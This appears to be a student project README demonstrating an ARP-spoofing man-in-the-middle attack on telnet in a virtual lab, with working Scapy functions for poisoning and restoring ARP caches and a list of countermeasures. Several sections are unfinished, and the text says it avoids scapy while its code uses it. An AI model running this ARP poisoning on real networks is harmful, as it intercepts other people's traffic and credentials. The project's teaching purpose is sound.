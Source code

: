 # Language-based Security

## Project - Man In The Middle Attack

### Introduction

TODO 

### Goal of the project

The goal of the project is to demonstrate the vulnerability (insecure communications) of the 
HTTP and telnet protocols and why it is important to use their secure versions SSH and HTTPS. 
To do that, we will create a sniffing / spoofing python script from scratch (without using libraries 
like scapy or impacket). In the case of telnet, we will analyse the telnet TCP connection packets 
sent from the target to another remote machine to get the credentials. We will then send a crafted 
RST TCP connection packet (by spoofing the IP of the remote machine) to the target, in order to break 
up the telnet connection, before logging into the remote machine ourselves. In the case of HTTP, we 
will analyse the HTTP packets, containing credentials, sent from the target to a test website and 
send a spoofed 404 http error packet to the target before logging into his account.

It is a project written in python language that demonstrates application layer protocols’ 
vulnerabilities. Also, we will first take the point of view of an attacker by creating and 
executing the script and then switch to a defender’s point of view by discussing the possible 
countermeasures as we did in the labs.

### The Attack

#### Initial Configuration

In order to demonstrate how an attacker inside a private network could retrieve important 
information, we used three virtual machines (VirtualBox) to simulate connections between client 
and server inside a company, for example. We will have a machine running Ubuntu 16.04 as a client, 
and another machine running Ubuntu 16.04 as a server.

![VirtualBox VMs](assets/virtualbox-vm.png)

Client IP is 192.168.0.42/24.

![Client's network information](assets/client-ip.png)

Client IP is 192.168.0.43/24.

![Server's network information](assets/server-ip.png)

The attacker is also connected to the network, and uses Kali Linux 
to perform the attack. Its IP address is 192.168.0.44/24.

![Attacker's network information](assets/kali-ip.png)

#### Telnet connection

Our use case will be a telnet connection between client and server 
computer. Telnet is not recommended, it's considered as an unsecured 
protocol since it's based on unencrypted messages.
To connect remotely using telnet, just use the command `$telnet <ip>`.
In our case to connect to the remote server, we use `$telnet 192.168.0.43`.

We are then prompted to enter login and password

![Telnet remote access](assets/telnet-connect.png)

#### ARP Spoofing

Some useful functions in the program :

```python
def get_mac(IP, interface="eth0"):
    conf.verb = 0
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=IP), timeout=2, iface=interface, inter=0.1)
    for snd, rcv in ans:
        return rcv.sprintf(r"%Ether.src%")
``` 

```python
def poison_arp(target1_mac, target2_mac):
    send(ARP(op=2, pdst=target1_ip, psrc=target2_ip, hwdst=target1_mac))
    send(ARP(op=2, pdst=target2_ip, psrc=target1_ip, hwdst=target2_mac))
``` 

```python
def undo_arp():
    print("\n[*] Restoring Targets...")
    target1_mac = get_mac(target1_ip)
    target2_mac = get_mac(target2_ip)
    send(ARP(op=2, pdst=target2_ip, psrc=target1_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target1_mac), count=7)
    send(ARP(op=2, pdst=target1_ip, psrc=target2_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target2_mac), count=7)
    print("[*] Disabling IP Forwarding...")
    os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
    print("[*] Shutting Down...")
    sys.exit(1)
```

We can see that both client and server have their arp cache changed when our python script is running.

One the client we pretend that 192.168.0.43 has the MAC address 08:00:27:d1:98:f9.

![Spoofed client](assets/arp-client-spoofed.png)

One the server we pretend that 192.168.0.42 has the MAC address 08:00:27:d1:98:f9.

![Spoofed server](assets/arp-server-spoofed.png)

#### Sniffing Packet


Note that this action can be done using Wireshark, but information retrieving might be more general, thus it could take more time to find login and password since this software display a lot of information.

![packet sniffing using Wireshark](assets/wireshark.png)

#### Information Retrieving

TODO

### Countermeasures

1. Network Configuration
    
    - Use static ARP tables. If you're located in a private network that belongs to you, you can set 
    it up si you cannot modify ARP tables. It will ensure that receiving wrong packets will not allow an attacker to 
    spoof you IP address to perform such an attack.
    - Avoid public networks. These attacks are even easier to do when their is a lot of traffic on the private network,
    since it might allow to capture a huge amount of data, and thus has a higher probability to obtain useful packets that
    could allow gaining important information. 

2. Client & Server Configuration

    - Don't use unencrypted channels to communicate over a network. Using secured protocols like SSH over Telnet,
    and HTTPS over HTTP highly reduces the chances of this type of attack to bring useful information to the attacker.
    
3. Security Prevention

    - Only uses what you know, and be careful of what you're doing on the net. A lot of big companies 
    (Facebook, AirBnb, ...) have well done and secured app, it's now very difficult to gain access or information using these platform.
     Untrusted platform might be more vulnerable to these type of attacks, since they have a less important budget allocated on security. 
    - Since data becomes more and more difficult to steal every day, a lot of attacks are now based on phishing, i.e pretending that you're the provider of a service and 
    thus gaining information directly from the victim, without any suspicion from him.

### Discussion

TODO

### Conclusion

TODO

### Sources

1. [How To Do Man In The Middle Attack(MITM) with ARP Spoofing Using Python and Scapy](https://medium.com/@ravisinghmnnit12/how-to-do-man-in-the-middle-attack-mitm-with-arp-spoofing-using-python-and-scapy-441ee577ba1b)
2. [How to Prevent ARP Spoofing Attacks?](https://www.indusface.com/blog/protect-arp-poisoning/#Identify_the_Spoofing_Attack)
2. [Scapy Documentation](https://scapy.readthedocs.io/en/latest/)

### Appendix

1. [Client Virtual Machine [ login:client | password:client ]](https://drive.google.com/open?id=1jqys0pS7WHDOQ2o-dHbC_ZloOjKGRBb-)
2. [Server Virtual Machine [ login:server | password : server ]](https://drive.google.com/open?id=1yCcbmsN0bCVQOsF0VYAkSZGiv8p4rXXd)

